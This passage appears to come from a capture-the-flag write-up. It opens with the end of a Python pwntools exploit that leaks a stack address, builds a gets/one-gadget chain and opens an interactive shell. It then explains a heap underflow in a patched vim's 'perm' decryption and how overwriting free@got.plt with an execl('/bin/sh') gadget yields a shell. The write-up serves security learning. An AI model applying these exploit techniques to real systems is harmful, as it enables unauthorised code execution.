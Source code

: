 ```python

  stack = u64(show(0,"Content: ","\nID").ljust(8,"\x00"))
  print("stack = {}".format(hex(stack)))
  if len(sys.argv) == 1:
    read_until_nl_or_max_retaddr = stack - 0x158 # local
  else:
    read_until_nl_or_max_retaddr = stack - 0x150 # remote
  update(2,p64(read_until_nl_or_max_retaddr)[:-1], ((code+0x114ab0) << 16))
  sleep(0.01)
  r.sendline("3")
  sleep(0.01)
  r.sendline("0")
  sleep(0.01)
  magic = libc.address + 0x4f322
  r.send(p64(libc.symbols['gets'])[:-1])
  r.sendline("AA" + p64(magic) + "\x00"*0x50)
  sleep(0.01)
  r.sendline("ls")

  r.interactive()

```

### If on a winters night a traveler
Given a patch file and a vim binary, we're asked to exploit a patched vim. After we check the patch file, we noticed that a new encryption method `perm` was added to the vim binary. We then implemented a tiny fuzzer, fuzz the binary and got a crash immediately. By analyzing the crash, we found that the following code in `crypt_perm_decode()` is flawed:

```c
while (i < len) 
{
    if (ps->cur_idx < ps->orig_size)
    {
        to[ps->cur_idx+4] = from[i]; 
        i++;
    }
    ps->cur_idx = (ps->cur_idx + ps->step) % ps->size;
}
```
The code did not check the lower bound of `to` buffer. Since we can control `ps->step`, `ps->cur_idx` can actually be a negative number, which leads to a heap buffer underflow vulnerability.

To exploit the service, we:
1. Use the vulnerability to overwrite the `ps->buffer` pointer and change it to `free@got.plt - 9`
2. Overwrite `ps->cur_idx` ( 1 byte ) so next time `ps->cur_idx` will be a positive number. This allow us to control the content of `to[positive_index]`.
3. Later when we run into the following code:
```c
for (i = 0; i < ps->shift; ++i)
    ps->buffer[i] = to[i+4];
```
Since we can control `to[i+4]`, we actually have an arbitrary write primitive. We decided to overwrite `free@got.plt` to `0x4C915d`, which contains the following gadget:
```
mov r8d, 0
mov rcx, rax
lea rdx, aC_2 ; "-c"
lea rsi, arg ; "sh"
lea rdi, path ; "/bin/sh"
mov eax, 0
call _execl
```
